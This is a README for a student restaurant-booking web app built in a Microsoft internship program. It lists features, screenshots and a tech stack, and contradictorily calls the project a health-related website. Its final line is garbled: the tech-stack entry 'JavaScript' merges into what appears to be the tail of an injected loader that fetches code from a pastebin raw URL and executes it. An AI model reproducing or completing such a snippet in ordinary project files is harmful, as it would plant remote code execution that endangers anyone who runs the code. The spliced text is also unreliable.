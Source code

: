 ✨ Glory Luxe ✨

This is a web based application developed for Health related website in India.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


*Project Link* -https://gentle-beach-0144bf900.3.azurestaticapps.net/


*Demo Video* -  

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸![Screenshot (23)](https://github.com/Kandula-Sowjanya/project18/assets/129253854/a5017214-3103-4f3c-b942-f9c66fc03988)


### Home page - 

![Screenshot (24)](https://github.com/Kandula-Sowjanya/project18/assets/129253854/44d8506e-3586-45e5-aa9c-106b8d908c3b)

### Team page -
![Screenshot (29)](https://github.com/Kandula-Sowjanya/project18/assets/129253854/0440d160-d7bb-4d2b-aaaa-31f32239c2b4)


### Contact page -
![Screenshot (27)](https://github.com/Kandula-Sowjanya/project18/assets/129253854/749dce00-f9b3-4a9f-bcbf-8ac2986c13db)


### Services Page -
![Screenshot (28)](https://github.com/Kandula-Sowjanya/project18/assets/129253854/80f3de84-29d5-4dd0-9599-d94533b34b01)


### About Us Page -
![Screenshot (25)](https://github.com/Kandula-Sowjanya/project18/assets/129253854/464e1c3f-4206-48f1-83a2-5efd5a92c703)


## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
